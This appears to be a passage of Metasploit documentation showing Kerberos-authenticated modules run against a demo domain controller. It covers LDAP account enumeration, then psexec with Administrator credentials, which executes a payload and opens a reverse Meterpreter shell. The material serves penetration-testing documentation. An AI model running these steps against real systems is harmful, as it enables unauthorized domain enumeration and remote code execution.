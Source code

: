 Query LDAP for accounts:

```
msf6 > use auxiliary/gather/ldap_query
msf6 auxiliary(gather/ldap_query) > run action=ENUM_ACCOUNTS rhost=192.168.123.13 username=Administrator password=p4$$w0rd ldapauth=kerberos ldaprhostname=dc3.demo.local domain=demo.local domaincontrollerrhost=192.168.123.13
[*] Running module against 192.168.123.13

[+] 192.168.123.13:88 - Received a valid TGT-Response
[*] 192.168.123.13:389 - TGT MIT Credential Cache ticket saved to /Users/user/.msf4/loot/20230118120714_default_192.168.123.13_mit.kerberos.cca_216797.bin
[+] 192.168.123.13:88 - Received a valid TGS-Response
[*] 192.168.123.13:389 - TGS MIT Credential Cache ticket saved to /Users/user/.msf4/loot/20230118120714_default_192.168.123.13_mit.kerberos.cca_638903.bin
[+] 192.168.123.13:88 - Received a valid delegation TGS-Response
[*] Discovering base DN automatically
[+] 192.168.123.13:389 Discovered base DN: DC=adf3,DC=local
CN=Administrator CN=Users DC=adf3 DC=local
==========================================

 Name                Attributes
 ----                ----------
 badpwdcount         0
 pwdlastset          133184302034979121
 samaccountname      Administrator
 useraccountcontrol  512
 ... etc ...
```

Running psexec against a host:

```
msf6 > use exploit/windows/smb/psexec
msf6 exploit(windows/smb/psexec) > run rhost=192.168.123.13 username=Administrator password=p4$$w0rd smbauth=kerberos domaincontrollerrhost=192.168.123.13 smbrhostname=dc3.demo.local domain=demo.local

[*] Started reverse TCP handler on 192.168.123.1:4444
[*] 192.168.123.13:445 - Connecting to the server...
[*] 192.168.123.13:445 - Authenticating to 192.168.123.13:445|demo.local as user 'Administrator'...
[+] 192.168.123.13:445 - 192.168.123.13:88 - Received a valid TGT-Response
[*] 192.168.123.13:445 - 192.168.123.13:445 - TGT MIT Credential Cache ticket saved to /Users/user/.msf4/loot/20230118120911_default_192.168.123.13_mit.kerberos.cca_474531.bin
[+] 192.168.123.13:445 - 192.168.123.13:88 - Received a valid TGS-Response
[*] 192.168.123.13:445 - 192.168.123.13:445 - TGS MIT Credential Cache ticket saved to /Users/user/.msf4/loot/20230118120911_default_192.168.123.13_mit.kerberos.cca_169149.bin
[+] 192.168.123.13:445 - 192.168.123.13:88 - Received a valid delegation TGS-Response
[*] 192.168.123.13:445 - Selecting PowerShell target
[*] 192.168.123.13:445 - Executing the payload...
[+] 192.168.123.13:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175686 bytes) to 192.168.123.13
[*] Meterpreter session 6 opened (192.168.123.1:4444 -> 192.168.123.13:49738) at 2023-01-18 12:09:13 +0000

meterpreter >
```


[1]: http://web.mit.edu/KERBEROS/krb5-devel/doc/formats/ccache_file_format.html